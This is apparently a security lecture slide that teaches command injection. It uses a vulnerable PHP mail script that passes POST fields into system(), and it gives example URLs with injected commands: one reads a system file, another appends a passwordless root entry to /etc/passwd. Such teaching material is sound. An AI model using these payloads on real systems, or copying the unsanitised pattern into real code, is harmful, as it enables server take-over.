

# Code injection using   system()
Example: PHP server-side code for sending email

Attacker can post

    OR

  $email = $_POST[“email”]
  $subject = $_POST[“subject”]
  system(“mail  $email –s  $subject < /tmp/joinmynetwork”)
  http://yourdomain.com/mail.php?
     email=hacker@hackerhome.net &
     subject=foo < /usr/passwd; ls
  http://yourdomain.com/mail.php?
     email=hacker@hackerhome.net&subject=foo;
     echo “evil::0:0:root:/:/bin/sh">>/etc/passwd; ls